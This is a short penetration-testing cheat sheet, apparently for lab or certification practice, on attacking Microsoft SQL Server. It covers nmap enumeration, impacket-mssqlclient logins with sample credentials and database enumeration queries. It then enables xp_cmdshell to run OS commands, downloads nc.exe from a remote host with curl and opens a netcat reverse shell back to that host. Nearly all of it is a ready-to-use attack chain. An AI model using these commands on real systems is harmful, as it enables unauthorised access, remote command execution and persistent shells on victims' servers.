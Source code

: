 # MSSQL

## MSSQL 1433, 4022, 135, 1434, UDP 1434

For this port, you can find credentials from another port and log in with ipacket-mssqlclient

    nmap -n -v -sV -Pn -p 1433 –script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password $ip

    impacket-mssqlclient noman:'Noman@321@1!'@192.168.10.10

    impacket-mssqlclient Administrator: 'Noman@321@1!'@192.168.10.10 -windows-auth

    SELECT @@version; | SELECT name FROM sys.databases; | SELECT FROM offsec.information_schema.tables; | select from offsec.dbo.users;

## Connect as CMD database


    SQL> EXECUTE sp_configure 'show advanced options', 1;

    SQL> RECONFIGURE;

    SQL> EXECUTE sp_configure 'xp_cmdshell', 1;

    SQL> RECONFIGURE;

    EXEC xp_cmdshell 'whoami';

    exec xp_cmdshell 'cmd /c powershell -c "curl 192.168.10.10/nc.exe -o \windows\temp\nc.exe"';

    exec xp_cmdshell 'cmd /c dir \windows\temp';

    exec xp_cmdshell 'cmd /c "\windows\temp\nc.exe 192.168.10.10 443 -e cmd"';

also applied on SQL Injection login

